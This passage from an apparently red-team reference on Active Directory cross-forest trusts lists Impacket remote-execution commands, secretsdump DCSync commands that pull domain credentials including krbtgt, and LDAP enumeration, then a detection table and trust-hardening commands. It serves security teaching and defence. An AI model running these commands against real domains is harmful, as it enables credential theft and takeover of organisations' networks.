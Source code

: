 ### Advanced Cross-Forest Techniques

```bash
# Cross-forest authentication testing
psexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>
wmiexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>
smbexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>

# Cross-forest DCSync
secretsdump.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>
secretsdump.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP> -just-dc-user TRUSTED-DOMAIN/krbtgt

# Cross-forest LDAP enumeration
ldapsearch -x -H ldap://TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -D "CURRENT-DOMAIN\\USERNAME" -W -b "DC=trusted-domain,DC=local" "(objectClass=user)"
ldapsearch -x -H ldap://TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -D "CURRENT-DOMAIN\\USERNAME" -W -b "DC=trusted-domain,DC=local" "(objectClass=group)"
```

---

## Detection & Mitigation

### Detection Indicators

| Attack Type | Indicator | Log Source | Event ID |
|-------------|-----------|------------|----------|
| **Golden Ticket** | Unusual Kerberos ticket properties | Domain Controller | 4769, 4768 |
| **Cross-Domain Auth** | Authentication from foreign domain | Domain Controller | 4769, 4624 |
| **SID History Usage** | Tokens with foreign SIDs | Domain Controller | 4627 |
| **Cross-Forest Kerberoasting** | TGS requests for foreign domain SPNs | Domain Controller | 4769 |

### Mitigation Strategies

#### Trust Configuration

```powershell
# Enable SID filtering (may break functionality)
netdom trust DOMAIN1 /domain:DOMAIN2 /EnableSIDHistory:No

# Enable selective authentication
netdom trust DOMAIN1 /domain:DOMAIN2 /SelectiveAuth:Yes

# Audit trust relationships
Get-ADTrust -Filter * | Export-Csv trust_audit.csv
```
